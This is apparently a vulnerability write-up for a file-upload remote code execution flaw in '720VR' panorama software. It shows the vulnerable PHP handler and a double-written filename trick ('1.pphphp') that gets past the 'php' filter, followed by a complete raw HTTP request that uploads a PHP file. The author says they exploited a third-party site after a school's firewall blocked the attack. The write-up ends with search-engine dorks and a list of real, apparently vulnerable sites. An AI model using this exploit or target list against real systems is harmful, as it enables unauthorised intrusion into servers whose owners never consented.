


# 720VR File upload RCE
## Source code analysis
The reason was that the school's VR site exposed the source code, and then the white box audit revealed the hole but could not be utilized (the school has WAF to automatically intercept malicious files), so I tried to search for the same source code site on Google syntax and successfully utilized it.
/App/Tools/Uploader/done.php and/App/Tools/Plupload/upload.chp are two file upload interfaces
```
<?php
define('UPLOAD_ROOT', str_replace("\\", '/', dirname(__FILE__)));
$allbase = UPLOAD_ROOT;
$basearr = explode("/App/", $allbase);
$base = $basearr[0];
$nowtime = time();
$basedir = "/uploads/station";
if (is_dir($base . $basedir) == FALSE) {
mkdir($base . $basedir);
}
$filetype = explode(".", $_FILES['Filedata']['name']);
$len = count($filetype) - 1;
$filetype = $filetype[$len];
$pinfo = basename($_FILES['Filedata']['tmp_name']);
$pinfo = explode(".", $pinfo);
$pinfo = $nowtime . $pinfo[0] . "." . $filetype; //Generate file name
$pinfo = str_replace("php", "", $pinfo);
$fileurl = $basedir . "/" . $pinfo;
if (move_uploaded_file($_FILES['Filedata']['tmp_name'], $base . $fileurl)) {
echo $fileurl;
}
?>
```
Before uploading the file, there is a judgment: $pinfo=str_deplace ("php", "", $pinfo);
This function can be bypassed, double written, and then uploaded as a PHP file, which is **1.pphphp**
After being processed by this function, it becomes 1.php
## Exploiting vulnerabilities
The vulnerability effect is as follows:

visit http://www.dazhubim.com/uploads/station/1751943200999.php

## Original data packet
```
POST /App/Tools/Uploader/done.php HTTP/1.1
Host: www.dazhubim.com
Content-Length: 309
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data;  boundary=----WebKitFormBoundarybdbxlJtXrPVqZLdL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml; q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh; q=0.9
Connection: close
------WebKitFormBoundarybdbxlJtXrPVqZLdL
Content-Disposition: form-data;  name="Filedata";  filename="1.pphphp"
Content-Type: text/plain
<?php phpinfo();? >
------WebKitFormBoundarybdbxlJtXrPVqZLdL
Content-Disposition: form-data;  name="submit"
Upload file
------WebKitFormBoundarybdbxlJtXrPVqZLdL--
```
## Example site
bing:"720vr全景软件"  
google:"720vr全景软件淘宝店独家销售" OR "720vr全景软件淘宝店独家开发"
```
http://www.dazhubim.com/App/Tools/Uploader/done.php
https://tinglan.net/App/Tools/Uploader/done.php
http://720qjlm.com/App/Tools/Uploader/done.php
https://pano-admin.huanjutang.com/App/Tools/Uploader/done.php
https://123xvr.net/App/Tools/Uploader/done.php
https://www.twmlzg.com/App/Tools/Uploader/done.php
https://ai.86pano.com/vr/App/Tools/Uploader/done.php
https://www.yunshangchongqing.com/App/Tools/Uploader/done.php
https://vr.aitrace.com/App/Tools/Uploader/done.php
https://vr.xhjj.com/App/Tools/Uploader/done.php
http://www.quanjingyun.net/App/Tools/Uploader/done.php
http://www.dazhubim.com/App/Tools/Uploader/done.php
https://www.yj-3d.com:666/App/Tools/Uploader/done.php
http://vr.newiset.com:8189/App/Tools/Uploader/done.php
https://sfthink.com/App/Tools/Uploader/done.php
https://111.230.51.217/App/Tools/Uploader/done.php
https://vr.lzxqzc.com/App/Tools/Uploader/done.php
```
